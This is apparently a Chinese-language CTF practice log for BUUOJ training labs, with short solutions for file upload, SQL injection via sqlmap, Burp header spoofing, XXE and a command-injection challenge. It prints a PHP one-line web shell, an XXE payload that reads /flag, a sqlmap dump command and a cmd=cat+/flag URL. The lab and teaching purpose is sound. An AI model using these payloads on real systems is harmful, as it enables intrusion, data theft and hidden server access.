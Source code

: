 ### pass17-20 
教程看上去太麻烦了，不想搞了

## BUU UPLOAD COURSE 1
上传一句话木马 pass.php
```
<?php eval($_POST["pass"]);?>
```
得到上传的文件地址后，然后使用蚁剑连接`http://169545d1-d8f9-4ad5-ae8b-85c20509798d.node5.buuoj.cn:81/index.php?file=uploads/67fb285a8f6f2.jpg`，找到根目录 flag 文件。

# sqli-labs
sql 注入的学习合集，不想学，好复杂，直接用 sqlmap 吧。
```sh
python .\sqlmap.py -u http://ad14b268-fed6-417a-9771-31331caea38f.node5.buuoj.cn/Less-3/?id=1 -D ctftraining -T flag -C flag --dump
```

# BUU BURP COURSE 1
打开 burp 的 intercept，在访问页面的时候，添加 headers: `X-Real-IP: 127.0.0.1`，然后 forword。发现网页有了登录界面，点击登录并继续 forword 即可。


# BUU XXE COURSE 1
用 burp 抓包发现发送的 payload 是 xml 格式。
XML解析器有外部实体引用功能，可以使用这个功能修改 payload 来读取系统的 /flag 文件内容：
```xml
<?xml version="1.0" encoding="utf-8"?>
 
<!DOCTYPE root [
    <!ENTITY admin SYSTEM "file:///flag">
    ]>
<root>
    <username> &admin; </username>
    <password> admin </password>
 
</root>
```
解释：
- `<!ENTITY admin SYSTEM "file:///flag">` 定义了一个名为admin的外部实体
- `SYSTEM "file:///flag"` 表示从本地文件系统读取/flag文件内容
- `&admin;` 在XML中引用该实体时，实际会被替换为文件内容

# LFI Labs
## cmd1
```
http://e8e69da3-83d9-44ad-82ae-10f784fa59ec.node5.buuoj.cn/CMD-1/index.php?cmd=cat+/flag
```
后面好麻烦不想搞了。
